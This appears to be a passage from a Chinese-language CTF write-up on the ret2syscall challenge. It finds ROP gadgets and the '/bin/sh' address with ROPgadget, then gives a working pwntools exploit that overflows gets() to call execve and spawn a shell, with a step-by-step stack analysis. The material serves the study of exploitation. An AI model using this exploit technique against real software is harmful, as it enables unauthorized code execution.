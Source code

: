 ```bash
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0807b6ed : pop ss ; pop ebx ; ret
```

- 选择`0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret`，加上前面找到的控制eax的，所需寄存器都找到了

```bash
$ ROPgadget --binary ret2syscall  --string "/bin/sh" # 获得 /bin/sh 字符串对应的地址
Strings information
============================================================
0x080be408 : /bin/sh
```
- 找到`/bin/sh` 字符串的地址`0x080be408`

```bash
$ ROPgadget --binary ret2syscall  --only "int" # 找 int 0x80 的地址
Gadgets information
============================================================
0x08049421 : int 0x80
```

- 找到`int 0x80`的地址`0x08049421`

# Exploit

```python
from pwn import *

sh = process('./ret2syscall')
context.log_level = "DEBUG"
pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
payload = flat(['A' * (108 + 4), pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80]) 
# pop_eax_ret 将覆盖在 gets(&v4); 的返回地址上
# 0xb: execve的系统调用号 # type(payload) = bytes
sh.sendline(payload)
sh.interactive()
```



## payload Analysis

```python
# 先将payload的所有用于覆盖RA用的地址换成8bytes的全c,d,e,f
payload = flat(['A' * (108 + 4), 0xcccccccc, 0xb, 0xdddddddd, 0, 0, 0xeeeeeeee,0xffffffff])
# 忽略掉前面的所有A，则剩下的 payload.hex() 输出为：
# cccccccc0b000000dddddddd0000000000000000eeeeeeeeffffffff
```

对于`gets(&v4)`来说，被payload覆盖后的栈如下所示（捋逻辑时从下往上看）

```assembly
; High Address 高地址 ; gets函数的栈被payload覆盖之后如下
ffffffff ; ret; 相当于pop EIP; 跳转到执行 int 0x80
eeeeeeee ; pop ebx ; ebx的值更改为eeeeeeee 实际为"/bin/sh"的地址
00000000 ; pop ecx ; ecx的值更改为0，执行完后ESP上移
00000000 ; pop edx ; edx的值更改为0，执行前ESP指向这里，执行完后ESP上移
dddddddd ; ret指令相当于pop EIP; EIP的值被更改为dddddddd ; 跳转到执行 pop_edx_ecx_ebx_ret
0b000000 ; pop eax; eax 的值被更改为 0xb; 然后ESP向上移，ESP指向dddddddd
cccccccc ; ret; 相当于pop EIP; ESP上移; EIP被修改为cccccccc; overflow: Original RA => cccccccc; 覆盖为pop_eax_ret的地址
41414141 ; 在执行ret指令前，ESP会被恢复到指向EBP处
........
41414141
```